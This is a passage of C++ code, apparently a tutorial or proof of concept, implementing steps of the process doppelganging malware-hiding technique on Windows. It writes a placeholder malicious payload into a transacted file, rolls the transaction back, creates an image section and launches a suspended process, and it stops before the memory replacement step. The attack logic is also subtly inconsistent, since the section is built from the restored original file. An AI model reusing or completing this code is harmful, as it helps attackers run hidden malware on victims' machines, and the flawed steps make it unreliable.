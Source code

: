 ```

    }

    const char* maliciousCode = "...";  // Replace with actual malicious code

    DWORD bytesWritten;

    WriteFile(hFile, maliciousCode, strlen(maliciousCode), &bytesWritten, NULL);

    CloseHandle(hFile);

    // Step 3: Rollback the transaction, restoring the original file

    if (!RollbackTransaction(hTransaction)) {

        std::cerr << "Failed to rollback transaction." << std::endl;

        CloseHandle(hTransaction);

        return 1;

    }

    // Step 4: Create a section from the transacted file

    hFile = CreateFile(L"legit.exe", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    HANDLE hSection;

    if (NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, 0, PAGE_READONLY, SEC_IMAGE, hFile) != STATUS_SUCCESS) {

        std::cerr << "Failed to create section." << std::endl;

        CloseHandle(hFile);

        return 1;

    }

    CloseHandle(hFile);

    // Step 5: Create a process from the section

    PROCESS_INFORMATION pi;

    STARTUPINFO si = { sizeof(si) };

    if (!CreateProcess(NULL, L"dummy", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {

        std::cerr << "Failed to create process." << std::endl;

        CloseHandle(hSection);

        return 1;

    }

    // Step 6: Replace the process memory with the section

```